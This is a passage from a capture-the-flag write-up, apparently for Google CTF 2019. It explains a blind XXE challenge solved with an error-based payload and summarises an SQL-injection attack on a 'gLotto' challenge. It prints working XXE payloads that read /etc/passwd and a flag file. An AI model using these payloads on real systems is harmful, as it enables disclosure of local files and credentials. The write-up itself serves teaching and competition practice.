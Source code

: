 And there is no response output for xxe payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]> 
<message>&xxe;</message>
```

But if we try existent file, it will return `No result found`

And if we try non-existent file, it will return Error: `Failure to process entity xxe, line 6, column 15`

So there is a blind XXE, we need to exfiltrate the result of XXE.

<br>

This challenge disable http request, so we can't use out-of-band XXE.

Then, I try the Error-based XXE to bring the result into error message.

(https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
```

![](https://i.imgur.com/Y5Qf1bn.png)


flag: `CTF{0x1033_75008_1004x0}`

### gLotto
Read the full writeup [here](https://sasdf.cf/ctf/writeup/2019/google/web/glotto/).

#### TL;DR
1. Concatenate part of the secret to winner, and order by its MD5 hash.
2. Pre-compute a mapping from permutation to secret offline.
3. Use SQL injection to order the result by our comparing function
4. Map the permutation back to a possible secret
5. Keep trying until the flag pops up.
